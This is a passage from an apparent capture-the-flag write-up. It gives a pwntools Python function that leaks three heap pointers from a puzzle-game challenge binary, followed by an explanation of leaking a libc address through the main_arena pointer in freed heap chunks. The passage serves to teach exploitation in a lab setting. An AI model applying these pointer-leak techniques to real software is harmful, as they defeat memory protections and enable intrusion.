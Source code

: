Here's the function to leak those three pointers:

```python  
@context.silent  
def solve_leak(idx, known_bits):  
   #known_bits = [0,0,0,0]  
   add_puzzle("leak", 92, b"\x00"*0x400)

   p.sendlineafter("Your input: ", "1")  
   p.sendlineafter("Index:\n", str(idx))  
   p.recvline_contains("Row's Numbers")

   row_numbers = [int(x.strip(b",")) for x in p.readuntil("\nColumn's
Numbers\n", drop=True).split()]  
   p.recvline_contains("Current Status")

   common = row_numbers[52:68] + row_numbers[32:40]  
   common = common + [a - b for a,b in zip(row_numbers[76:88], known_bits +
common[:8])]  
   assert len(common) == 36

   beg_low = [a - b for a, b in zip(row_numbers[4:16], common[16:28])]  
   end_low = [a - b for a, b in zip(row_numbers[68:80], common[16:28])]  
   cap_low = [a - b for a, b in zip(row_numbers[40:52], common[-12:])]  
   zeros = [0] * 16  
   assert len(beg_low) == 12  
   assert len(end_low) == 12  
   assert len(cap_low) == 12

   beg_bits = beg_low + common + zeros  
   end_bits = end_low + common + zeros  
   cap_bits = cap_low + common + zeros

   actions = [(i, 89) for i, v in enumerate([0] * 4 + beg_bits +
end_bits[:24]) if v]  
   actions += [(i, 90) for i, v in enumerate(common[12:] + zeros +
cap_bits[:52]) if v]

   p.sendlineafter(":", "".join(str(x) + " " + str(y) + "\n" for x, y in
actions))  
   p.recvline_contains("Congratz!")

   return u64(decode_int64(beg_bits)), u64(decode_int64(end_bits)),
u64(decode_int64(cap_bits))  
```

## Leaking heap data / libc address  
As a next step, we want to leak the base address of libc.  
For this, we can leak data from the heap after freeing a big enough number of
puzzles.  
The last chunk in the linked list of free chunks will then contain a pointer
into the libc `main_arena` struct, so there will be a libc pointer on the
heap.
